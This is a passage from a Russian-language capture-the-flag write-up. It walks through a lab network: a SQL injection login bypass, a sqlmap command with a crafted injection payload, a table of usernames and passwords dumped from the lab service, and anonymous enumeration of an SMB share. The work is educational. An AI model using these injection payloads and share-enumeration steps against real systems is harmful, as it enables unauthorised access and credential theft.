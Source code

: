 На `.6` лежит какая-то самба, на `.10` — панелька роутера, на `.14` — сервис доносов и на `.54` — устройство, с которого пишется райтап. К VPN могут быть подключены и другие хосты — хосты участников. Чтобы не ломать случайно других, можно договориться сообщать свои IP-адреса в чат.

## Пароль

На одном из найденных серверов на порту 80 видим сервис по созданию доносов. Странная формочка и заголовок «Service for Querying your Loyalty Index» (по заглавным SQLI) намекают на возможность SQL-инъекции. Можно руками попробовать самую простую — прописать в поле «логин» `' OR 1=1 --` — и получить доступ к голосовалке.

Нужно натравить sqlmap, чтобы не выдергивать руками всю базу. С параметрами по умолчанию sqlmap считает, что никаких уязвимостей нет, поэтому ему надо на них намекнуть. Можно попросить sqlmap более жестоко относиться к сервису, подав ему аргументы `--risk 3 --level 3 --forms`.

Альтернативный способ — тот, который придумали в чате при решении — сразу закинуть правильный пейлоад в sqlmap:
```
sqlmap 'http://192.168.255.22/login' --data 'username=%27+OR+%271%27%3D%271*%27+--+-&password=1'
```

Тут пейлоад выглядит как предзаполненная форма с местом для инъекции: `username=' OR '1'='1*' -- -&password=1`.

Получаем полезную таблицу с логинами и паролями:

| login     | password |
|-----------|----------|
| Калан     | tn3895ny |
| Сергей    | 12345678 |
| Екаетрина | fjjjjfds |
| Владимир  | p4r11jjj |
| Александр | t1murrk4 |
| Марина    | m4sha819 |

Ответ: **fjjjjfds**

## Самба

Посмотрим, что лежит на этой самбе:

```shell
$ gio tree smb://192.168.255.6/
smb://192.168.255.6/
`-- Teemoorka -> smb://192.168.255.6/Teemoorka
```

Ага, есть шара. Попробуем зайти анонимно и узнать, что там есть:

```shell
$ gio mount -a smb://192.168.255.6/Teemoorka/
$ gio tree smb://192.168.255.6/Teemoorka/
smb://192.168.255.6/teemoorka/
|-- _сети
|   |-- Untitled 1.pptx
|   `-- картинка.jpg
|-- teemoorka.svg
|-- Выписка из трансформатора генерации предварительной тренировки (1) - копия.docx
|-- ОБУЧАЮЩИЕ МАТЕРИАЛЫ
|   |-- КАК ОТКРЫТЬ ДВЕРЬ？ГАЙД ДЛЯ НАЧИНАЮЩИХ [ExlJbAD14f4].mkv
|   |-- безопасность.txt
|   |-- как создать папку.url
|   |-- обучающие материалы nda.docx
|   `-- обучающие материалы очищенное.docx
```